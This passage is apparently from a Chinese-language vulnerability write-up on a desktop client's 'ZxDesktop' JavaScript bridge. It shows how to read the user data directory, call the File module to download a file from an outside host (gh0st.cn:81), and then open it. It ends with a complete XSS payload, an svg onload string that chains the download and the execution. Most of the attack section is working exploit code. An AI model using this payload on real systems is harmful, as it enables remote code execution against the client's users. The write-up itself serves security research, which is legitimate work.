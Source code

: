 它的导出列表中有两个属性：dbPath、userDataPath，它们的内容都是一样的，指向了用户的数据目录：

```javascript
ZxDesktop.require("System").userDataPath
```

我们可以这样拼接，就有了下载文件的目录信息了：

```javascript
ZxDesktop.require("System").userDataPath + "/null/test.txt"
```

当我们满足所有条件后，就可以构造完整的攻击代码了：

1.下载文件：

```javascript
var a = ZxDesktop;

var b = a.require("File");

b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

2.拼接文件路径，打开文件：

```javascript
b.open(a.require("System").userDataPath + "/null/test.txt");
```

3.最终Exploit：

```html
"><svg onload='var a = ZxDesktop;var b = a.require("File");b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});b.open(a.require("System").dbPath + "/null/test.txt");'>
```

[![](assets/1703487068-e7cacde52d19b96ca4f8cc533798be95.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028761314895.jpg)
